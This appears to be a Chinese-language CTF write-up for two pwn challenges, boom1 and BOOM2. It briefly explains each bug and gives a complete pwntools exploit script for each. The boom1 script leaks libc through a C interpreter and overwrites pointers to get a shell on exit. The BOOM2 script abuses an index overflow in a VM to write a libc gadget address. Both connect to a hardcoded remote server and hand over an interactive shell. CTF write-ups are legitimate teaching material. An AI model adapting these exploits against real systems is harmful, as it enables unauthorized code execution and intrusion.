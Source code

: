 ## PWN
### boom1
一个c的解释器，可以拿到libc的leak，然后手工把指针指歪了就能任意地址读写，但是只给写三位以及三次函数调用，最后通过exit来getshell。
```python=
from pwn import*
libc =ELF('./libc-2.23.so')
p = remote('182.92.73.10',24573)
#p=process('./pwn')
context.log_level ='DEBUG'
payload = '''
char *s;
char *n;
char *ptr;
int main()
{
s = "zihu4n";
printf("%p",s);
n = s - (0x7f72342d3028 - 0x7f7233daa000);
s = n + 0x5F0048;
s[0] = 0;
s = n + 0x5F0F48;
ptr = 0xCD0F3 + n;
s[0] = ptr&0xFF;
s[1] = (ptr&0xFF00)>>8;
s[2] = (ptr&0xFF0000)>>16;
printf("pwn!");
}'''
payload = payload.replace('\n','')
p.sendline(payload)
p.interactive()
```
### BOOM2
vm pwn
下标溢出+mmap给了libc地址
1是set r1 6是set ebp 13 mov[ebp],r1 25 add r1,ebp  30 return
然后就是任意地址写了
但是没有leak，以及作者的libc很恶心，测了很久才出来。
```python=
from pwn import *

Max = 0x10000000000000000

#r = process("./pwn")

# gdb.attach(r)

py = ''
py += p64(1) + p64(Max + 0xf02a4-0x5eb000)#set r1
py += p64(6) + p64(Max - 1)#set ebp
py += p64(25)#add r1 ebp
py += p64(6) + p64(Max -0xbed)#set ebp
py += p64(13)#mov [ebp],r1
py += p64(0x1e)

r = remote("182.92.73.10", "36642")
r.sendlineafter("ode> ", py)
r.interactive()
```
## WEB
### AreUseria